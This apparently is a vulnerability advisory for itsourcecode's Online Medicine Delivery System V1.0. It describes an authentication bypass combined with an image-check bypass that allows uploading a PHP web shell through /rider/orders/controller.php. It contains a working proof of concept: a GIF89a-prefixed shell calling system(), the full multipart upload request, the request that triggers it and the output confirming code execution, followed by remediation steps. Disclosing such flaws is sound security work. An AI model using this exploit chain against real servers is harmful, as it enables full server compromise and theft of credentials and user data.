


# itsourcecode Online Medicine Delivery System V1.0 - Remote Code Execution via '/rider/orders/controller.php'
---

## 1. Product Information
| Field | Value |
| --- | --- |
| **Product Name** | Online Medicine Delivery System |
| **Product Link** | [https://itsourcecode.com/free-projects/php-project/complete-online-medicine-delivery-system-with-sms-notification-in-php/](https://itsourcecode.com/free-projects/php-project/complete-online-medicine-delivery-system-with-sms-notification-in-php/) |
| **Vendor** | itsourcecode |
| **Affected Version** | V1.0 |
| **Authentication Required** | No, exploitable without any authentication |


## 2. Vulnerability Type
**File Upload Leading to Remote Code Execution via Auth Bypass**

---

## 3. Vulnerability Description
The rider backend order management controller `/rider/orders/controller.php` of Online Medicine Delivery System contains a file upload vulnerability in the `doInsert()` function. The function uses `getimagesize()` to verify whether the uploaded file is an image, but does not perform whitelist validation on file extensions or randomly rename uploaded files. An attacker can craft a GIF89a image shell to bypass the check while retaining the `.php` extension so the server parses and executes it as a PHP script.


**Affected Code**:

`rider/orders/controller.php:3-7` (Authentication does not terminate execution)

```php
if (!isset($_SESSION['USERID'])){
    redirect(web_root."admin/index.php");
}
```

`rider/orders/controller.php:49-73` (doInsert upload logic)

```php
function doInsert(){
    if(isset($_POST['save'])){
        $myfile =$_FILES['image']['name'];
        $location="uploaded_photos/".$myfile;
        // ...
        @$image_size= getimagesize($_FILES['image']['tmp_name']);
        if ($image_size==FALSE || $type=='video/wmv') {
            message("Uploaded file is not an image!", "error");
        }else{
            move_uploaded_file($temp,"uploaded_photos/" . $myfile);
        }
    }
}
```

---

## 4. Impact
+ **Remote Code Execution (RCE)**: An attacker can upload a web shell to obtain server command execution privileges, fully controlling the server
+ **No Valid Authentication Required**: Since the authentication function uses JS redirect without terminating PHP execution, any session can pass (even without a session)
+ **Sensitive Data Disclosure**: Through RCE, arbitrary server files can be read (configuration files, database credentials, user data, etc.)
+ **Internal Network Pivoting**: After obtaining a server shell, it can be used as a pivot point for further penetration into the internal network
+ **Persistent Backdoor**: The uploaded web shell persists on the server and can be accessed repeatedly

**Step 1 — Craft a GIF89a image shell**:

Append PHP code after a valid GIF89a file header:

```plain
GIF89a\x01\x00\x01\x00\x00\x00\x00\x2c\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x02\x4c\x01\x00\x3b<?php system('type C:\Windows\win.ini'); ?>
```

**Step 2 — Upload the image shell (no valid authentication required, any Cookie will work)**:

```plain
POST /rider/orders/controller.php?action=add HTTP/1.1
Host: ******
Cookie: PHPSESSID=anysessionvalue
Content-Type: multipart/form-data; boundary=----Boundary
Connection: close

------Boundary
Content-Disposition: form-data; name="image"; filename="shell2.php"
Content-Type: image/gif

GIF89a<?php system('type C:\Windows\win.ini'); ?>
------Boundary
Content-Disposition: form-data; name="PRODUCTNAME"

TestProduct
------Boundary
Content-Disposition: form-data; name="QTY"

1
------Boundary
Content-Disposition: form-data; name="PRICE"

100
------Boundary
Content-Disposition: form-data; name="PRODUCTTYPE"

Medicine
------Boundary
Content-Disposition: form-data; name="ORIGIN"

1
------Boundary
Content-Disposition: form-data; name="CATEGORY"

1
------Boundary
Content-Disposition: form-data; name="DESCRIPTION"

test
------Boundary
Content-Disposition: form-data; name="save"

1
------Boundary--
```

**Step 3 — Access the uploaded web shell to trigger code execution**:

```plain
GET /rider/orders/uploaded_photos/shell2.php HTTP/1.1
Host: ******
Connection: close
```

**Response**:

```plain
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

GIF89a; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
[WINSET]
******
```

The `type C:\Windows\win.ini` command was successfully executed, and the contents of the `win.ini` file were fully output, confirming successful remote code execution.

**Key Note**: Although the session check failed (`$_SESSION['USERID']` does not exist) and `redirect()` output JS redirect code, PHP continued to execute `move_uploaded_file()`, and the file was successfully uploaded. This verifies the chained exploitation effect of the C-07 vulnerability.

The execution screenshot shows that after uploading the web shell, the return code is 200 and the contents of the win.ini file can be displayed:






---

## 6. Remediation
1. **Fix the Authentication Function**: `redirect()` must be followed by a call to `exit` or `die` to terminate PHP execution
2. **File Extension Whitelist**: Only allow uploading image files with specified extensions
3. **Randomly Rename Uploaded Files**: Use randomly generated filenames instead of original filenames
4. **Disable PHP Execution in Upload Directory**: Add `.htaccess` in the `uploaded_photos/` directory

